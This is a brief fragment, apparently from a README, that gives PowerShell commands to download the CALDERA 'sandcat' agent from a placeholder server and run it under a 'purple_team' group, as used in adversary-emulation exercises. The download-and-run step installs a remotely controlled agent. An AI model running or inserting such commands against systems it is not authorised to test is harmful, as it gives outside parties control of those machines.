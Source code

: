 Invoke-WebRequest -Uri http://caldera_server_address/sandcat.exe -OutFile sandcat.exe
./sandcat.exe --server http://caldera_server_address --group "purple_team"
